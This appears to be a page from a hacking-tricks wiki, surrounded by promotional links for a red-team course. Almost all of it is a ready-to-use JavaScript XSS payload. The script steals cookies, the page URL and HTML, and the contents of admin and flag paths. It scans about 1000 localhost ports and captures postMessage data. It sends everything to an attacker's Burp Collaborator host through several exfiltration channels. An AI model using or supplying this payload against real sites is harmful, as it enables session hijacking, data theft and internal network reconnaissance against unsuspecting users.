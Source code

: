 

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@khulnasoftm**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>


```javascript
// SELECT HERE THE EXFILTRATION MODE (more than 1 can be selected)
// If any GET method is selected (like location or RQ_GET), it's recommended to exfiltrate each info 1 by 1
var ATTACKER_SERVER = "https://weecosb5a2k7jc0cwlyksg9qzh57tw.burpcollaborator.net"
var EXFIL_BY_IMG = false
var EXFIL_BY_RQ_GET = false
var EXFIL_BY_RQ_POST = true
var EXFIL_BY_FETCH_GET = false
var EXFIL_BY_FETCH_POST = false
var EXFIL_BY_NAV = false

var EXFIL_BY_LOC = false
var ALL_INFO = "" // Only used by Location exfiltration


// Function to make the data possible to transmit via either GET or POST
function encode(text){
    return encodeURI(btoa(text));
}

// Functions to exfiltrate the information
function exfil_info(info_name, text, is_final=false){
    if (EXFIL_BY_IMG)               exfil_by_img(info_name, text);
    if (EXFIL_BY_RQ_GET)            exfil_by_rq_get(info_name, text);
    if (EXFIL_BY_RQ_POST)           exfil_by_rq_post(info_name, text);
    if (EXFIL_BY_FETCH_GET)         exfil_by_fetch_get(info_name, text);
    if (EXFIL_BY_FETCH_POST)        exfil_by_fetch_post(info_name, text);
    if (EXFIL_BY_NAV)               exfil_by_nav(info_name, text);
    if (EXFIL_BY_LOC){
        if (is_final) exfil_by_loc(info_name, text);
        else ALL_INFO += "\n\n" + info_name + "=" + text;
    }
}

function exfil_by_img(info_name, text){
    new Image().src = ATTACKER_SERVER + "/exfil_by_img/" + info_name + "?" + info_name + "=" + text
}

function exfil_by_rq_get(info_name, text){
    var xhttp = new XMLHttpRequest();
    xhttp.open("GET", ATTACKER_SERVER + "/exfil_by_rq_get/" + info_name + "?" + info_name + "=" + text, true);
    xhttp.send();
}

function exfil_by_rq_post(info_name, text){
    var xhttp = new XMLHttpRequest();
    xhttp.open("POST", ATTACKER_SERVER + "/exfil_by_rq_post/" + info_name, true);
    xhttp.send(text);
}

function exfil_by_fetch_get(info_name, text){
    fetch(ATTACKER_SERVER + "/exfil_by_fetch_get/" + info_name + "?" + info_name + "=" + text, {method: 'GET', mode: 'no-cors'});
}

function exfil_by_fetch_post(info_name, text){
    fetch(ATTACKER_SERVER + "/exfil_by_fetch_post/" + info_name, {method: 'POST', mode: 'no-cors', body: text});
}

function exfil_by_nav(info_name, text){
    navigator.sendBeacon(ATTACKER_SERVER + "/exfil_by_nav/" + info_name, text)
}

function exfil_by_loc(info_name, text){
    document.location = ATTACKER_SERVER + "/exfil_by_loc/?a=" + encode(ALL_INFO);
}


// Functions to get the data to exfiltrate
function exfil_page_content(url){
    var xhr  = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (xhr.readyState == XMLHttpRequest.DONE) {
            exfil_info(url, encode(xhr.responseText));
        }
    }
    xhr.open('GET', url, true);
    xhr.send(null);
}

function exfil_internal_port(port){
    fetch("http://127.0.0.1:" + port + "/", { mode: "no-cors" }).then(() => { 
        exfil_info("internal_port", encode(port));
    });
}


// Info to exfiltrate
exfil_info("cookies", encode(document.cookie));
exfil_info("current_url", encode(document.URL));
exfil_info("current_content", encode(document.documentElement.innerHTML));
exfil_page_content("/");
exfil_page_content("/admin"); // If 404 nothing will be sent
exfil_page_content("/flag");
exfil_page_content("/flag.txt");

top_1000 = [1,3,4,6,7,9,13,17,19,20,21,22,23,24,25,26,30,32,33,37,42,43,49,53,70,79,80,81,82,83,84,85,88,89,90,99,100,106,109,110,111,113,119,125,135,139,143,144,146,161,163,179,199,211,212,222,254,255,256,259,264,280,301,306,311,340,366,389,406,407,416,417,425,427,443,444,445,458,464,465,481,497,500,512,513,514,515,524,541,543,544,545,548,554,555,563,587,593,616,617,625,631,636,646,648,666,667,668,683,687,691,700,705,711,714,720,722,726,749,765,777,783,787,800,801,808,843,873,880,888,898,900,901,902,903,911,912,981,987,990,992,993,995,999,1000,1001,1002,1007,1009,1010,1011,1021,1022,1023,1024,1025,1026,1027,1028,1029,1030,1031,1032,1033,1034,1035,1036,1037,1038,1039,1040,1041,1042,1043,1044,1045,1046,1047,1048,1049,1050,1051,1052,1053,1054,1055,1056,1057,1058,1059,1060,1061,1062,1063,1064,1065,1066,1067,1068,1069,1070,1071,1072,1073,1074,1075,1076,1077,1078,1079,1080,1081,1082,1083,1084,1085,1086,1087,1088,1089,1090,1091,1092,1093,1094,1095,1096,1097,1098,1099,1100,1102,1104,1105,1106,1107,1108,1110,1111,1112,1113,1114,1117,1119,1121,1122,1123,1124,1126,1130,1131,1132,1137,1138,1141,1145,1147,1148,1149,1151,1152,1154,1163,1164,1165,1166,1169,1174,1175,1183,1185,1186,1187,1192,1198,1199,1201,1213,1216,1217,1218,1233,1234,1236,1244,1247,1248,1259,1271,1272,1277,1287,1296,1300,1301,1309,1310,1311,1322,1328,1334,1352,1417,1433,1434,1443,1455,1461,1494,1500,1501,1503,1521,1524,1533,1556,1580,1583,1594,1600,1641,1658,1666,1687,1688,1700,1717,1718,1719,1720,1721,1723,1755,1761,1782,1783,1801,1805,1812,1839,1840,1862,1863,1864,1875,1900,1914,1935,1947,1971,1972,1974,1984,1998,1999,2000,2001,2002,2003,2004,2005,2006,2007,2008,2009,2010,2013,2020,2021,2022,2030,2033,2034,2035,2038,2040,2041,2042,2043,2045,2046,2047,2048,2049,2065,2068,2099,2100,2103,2105,2106,2107,2111,2119,2121,2126,2135,2144,2160,2161,2170,2179,2190,2191,2196,2200,2222,2251,2260,2288,2301,2323,2366,2381,2382,2383,2393,2394,2399,2401,2492,2500,2522,2525,2557,2601,2602,2604,2605,2607,2608,2638,2701,2702,2710,2717,2718,2725,2800,2809,2811,2869,2875,2909,2910,2920,2967,2968,2998,3000,3001,3003,3005,3006,3007,3011,3013,3017,3030,3031,3052,3071,3077,3128,3168,3211,3221,3260,3261,3268,3269,3283,3300,3301,3306,3322,3323,3324,3325,3333,3351,3367,3369,3370,3371,3372,3389,3390,3404,3476,3493,3517,3527,3546,3551,3580,3659,3689,3690,3703,3737,3766,3784,3800,3801,3809,3814,3826,3827,3828,3851,3869,3871,3878,3880,3889,3905,3914,3918,3920,3945,3971,3986,3995,3998,4000,4001,4002,4003,4004,4005,4006,4045,4111,4125,4126,4129,4224,4242,4279,4321,4343,4443,4444,4445,4446,4449,4550,4567,4662,4848,4899,4900,4998,5000,5001,5002,5003,5004,5009,5030,5033,5050,5051,5054,5060,5061,5080,5087,5100,5101,5102,5120,5190,5200,5214,5221,5222,5225,5226,5269,5280,5298,5357,5405,5414,5431,5432,5440,5500,5510,5544,5550,5555,5560,5566,5631,5633,5666,5678,5679,5718,5730,5800,5801,5802,5810,5811,5815,5822,5825,5850,5859,5862,5877,5900,5901,5902,5903,5904,5906,5907,5910,5911,5915,5922,5925,5950,5952,5959,5960,5961,5962,5963,5987,5988,5989,5998,5999,6000,6001,6002,6003,6004,6005,6006,6007,6009,6025,6059,6100,6101,6106,6112,6123,6129,6156,6346,6389,6502,6510,6543,6547,6565,6566,6567,6580,6646,6666,6667,6668,6669,6689,6692,6699,6779,6788,6789,6792,6839,6881,6901,6969,7000,7001,7002,7004,7007,7019,7025,7070,7100,7103,7106,7200,7201,7402,7435,7443,7496,7512,7625,7627,7676,7741,7777,7778,7800,7911,7920,7921,7937,7938,7999,8000,8001,8002,8007,8008,8009,8010,8011,8021,8022,8031,8042,8045,8080,8081,8082,8083,8084,8085,8086,8087,8088,8089,8090,8093,8099,8100,8180,8181,8192,8193,8194,8200,8222,8254,8290,8291,8292,8300,8333,8383,8400,8402,8443,8500,8600,8649,8651,8652,8654,8701,8800,8873,8888,8899,8994,9000,9001,9002,9003,9009,9010,9011,9040,9050,9071,9080,9081,9090,9091,9099,9100,9101,9102,9103,9110,9111,9200,9207,9220,9290,9415,9418,9485,9500,9502,9503,9535,9575,9593,9594,9595,9618,9666,9876,9877,9878,9898,9900,9917,9929,9943,9944,9968,9998,9999,10000,10001,10002,10003,10004,10009,10010,10012,10024,10025,10082,10180,10215,10243,10566,10616,10617,10621,10626,10628,10629,10778,11110,11111,11967,12000,12174,12265,12345,13456,13722,13782,13783,14000,14238,14441,14442,15000,15002,15003,15004,15660,15742,16000,16001,16012,16016,16018,16080,16113,16992,16993,17877,17988,18040,18101,18988,19101,19283,19315,19350,19780,19801,19842,20000,20005,20031,20221,20222,20828,21571,22939,23502,24444,24800,25734,25735,26214,27000,27352,27353,27355,27356,27715,28201,30000,30718,30951,31038,31337,32768,32769,32770,32771,32772,32773,32774,32775,32776,32777,32778,32779,32780,32781,32782,32783,32784,32785,33354,33899,34571,34572,34573,35500,38292,40193,40911,41511,42510,44176,44442,44443,44501,45100,48080,49152,49153,49154,49155,49156,49157,49158,49159,49160,49161,49163,49165,49167,49175,49176,49400,49999,50000,50001,50002,50003,50006,50300,50389,50500,50636,50800,51103,51493,52673,52822,52848,52869,54045,54328,55055,55056,55555,55600,56737,56738,57294,57797,58080,60020,60443,61532,61900,62078,63331,64623,64680,65000,65129,65389]
top_1000.forEach(port => exfil_internal_port(port));

if (EXFIL_BY_LOC){
    setTimeout(exfil_info("finish", "finish", true), 5000) // exfiltrate by location after 5s
}

// Sniff info
window.onmessage = function(e){
    exfil_info("onmessage", encode(e.data))
}
```


<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@khulnasoftm**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>


